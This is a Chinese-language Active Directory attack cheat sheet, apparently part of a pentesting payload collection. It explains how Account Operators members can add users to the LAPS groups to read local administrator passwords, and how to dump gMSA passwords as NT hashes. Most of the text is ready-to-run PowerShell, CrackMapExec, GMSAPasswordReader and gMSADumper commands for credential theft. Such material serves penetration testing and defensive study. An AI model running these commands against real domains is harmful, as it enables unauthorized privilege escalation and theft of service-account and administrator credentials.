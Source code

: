 ### 授予LAPS访问权限

“账户操作员”组的成员可以添加和修改所有非管理员用户和组。由于**LAPS ADM**和**LAPS READ**被视为非管理员组，因此可以将用户添加到其中，并读取LAPS管理员密码

```ps1
Add-DomainGroupMember -Identity 'LAPS ADM' -Members 'user1' -Credential $cred -Domain "domain.local"
Add-DomainGroupMember -Identity 'LAPS READ' -Members 'user1' -Credential $cred -Domain "domain.local"
```

## 读取GMSA密码

> 创建用作服务账户的用户账户很少更改其密码。组托管服务账户（GMSAs）提供了一种更好的方法（从Windows 2012时期开始）。密码由AD管理，并每30天自动轮换为一个256字节的随机生成密码。

### Active Directory中的GMSA属性

* `msDS-GroupMSAMembership`（`PrincipalsAllowedToRetrieveManagedPassword`）- 存储可以访问GMSA密码的安全主体。
* `msds-ManagedPassword` - 此属性包含组托管服务账户密码信息的BLOB。
* `msDS-ManagedPasswordId` - 此构造属性包含当前组MSA托管密码数据的密钥标识符。
* `msDS-ManagedPasswordInterval` - 此属性用于检索组MSA托管密码自动更改前的天数。



# 从AD域提取NT哈希

* [mpgn/CrackMapExec](https://github.com/mpgn/CrackMapExec)

  ```ps1
  # 使用--lsa获取GMSA ID
  crackmapexec ldap domain.lab -u user -p 'PWD' --gmsa-convert-id 00[...]99
  crackmapexec ldap domain.lab -u user -p 'PWD' --gmsa-decrypt-lsa '_SC_GMSA_{[...]}_.....'
  ```

* [rvazarkar/GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader)

  ```ps1
  GMSAPasswordReader.exe --accountname SVC_SERVICE_ACCOUNT
  ```

* [micahvandeusen/gMSADumper](https://github.com/micahvandeusen/gMSADumper)

  ```powershell
  python3 gMSADumper.py -u User -p Password1 -d domain.local
  ```

* AD域PowerShell

  ```ps1
  $gmsa =  Get-ADServiceAccount -Identity 'SVC_SERVICE_ACCOUNT' -Properties 'msDS-ManagedPassword'
  $blob = $gmsa.'msDS-ManagedPassword'
  $mp = ConvertFrom-ADManagedPasswordBlob $blob
  $hash1 =  ConvertTo-NTHash -Password $mp.SecureCurrentPassword
  ```

* [kdejoyce/gMSA_Permissions_Collection.ps1](https://gist.github.com/kdejoyce/f0b8f521c426d04740148d72f5ea3f6f#file-gmsa_permissions_collection-ps1) 基于AD域PowerShell模块
